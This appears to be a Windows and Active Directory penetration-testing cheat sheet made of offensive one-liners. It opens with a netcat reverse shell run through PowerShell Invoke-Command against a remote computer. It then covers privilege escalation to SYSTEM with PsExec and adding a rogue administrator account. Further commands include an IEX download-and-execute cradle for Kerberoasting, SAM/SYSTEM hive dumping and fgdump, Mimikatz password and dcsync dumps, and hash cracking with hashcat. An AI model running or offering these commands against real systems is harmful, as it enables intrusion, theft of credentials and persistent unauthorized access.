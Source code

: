 ```powershell
Invoke-command -computername COMPUTER_NAME -credential $credential -scriptblock {cmd.exe /c C:\Users\Public\nc.exe -e cmd.exe 10.1.1.1
5 8877 }
```
- Administrator to System
    - It is a feature
        - `PsExec -i -s cmd.exe`
            - Will creat a new window
        - `PsExec -s cmd`
            - In current window
        - `-accepteula`
        - https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
### User
- Create new user
    - `net user /add {USER_NAME} {USER_PASS}`
- Add user to admin group
    - `net localgroup administrators {USER_NAME} /add`
### AD
- List user
    - `net user` Machine
    - `net user /domain` AD
    - `net user {Username} /domain` list user detail
- List group
    - `net group`
    - `net group /domain`
- http://md.stevenyu.tw/zeDGpHb-RVSi0K5xF1HRsQ
#### Kerberoast
- Get User Hash
    - [Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
    - `powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://{MY_IP}/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"`
    - `hashcat -m 13100 `
### Get User's hash
- `impacket-smbserver`
    - `dir \\{ip}\meow`
    - Get NETNTLMv2
    - Use john to crack!
- Dump `sam` / `system`
    - reg
        - `reg save hklm\sam c:\sam`
        - `reg save hklm\system c:\system`
    - `fgdump.exe` (`locate fgdump.exe`)
        - Send to windows and just run
        - It will create a `127.0.0.1.pwdump` hash file
    - `hashcat -m 1000`
- [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)
    - `privilege::debug`
    - `sekurlsa::logonPasswords full`
        - Dump current computer passwords
    - `lsadump::dcsync /domain:{DOMAIN NAME} /all /csv`
        - Dump domain user hash (need domain admin)
    - `mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"`
### Powershell
- If got `cannot be loaded because running scripts is disabled on this system`
    - type `Set-ExecutionPolicy RemoteSigned`
### Defense Evasion
- Shellter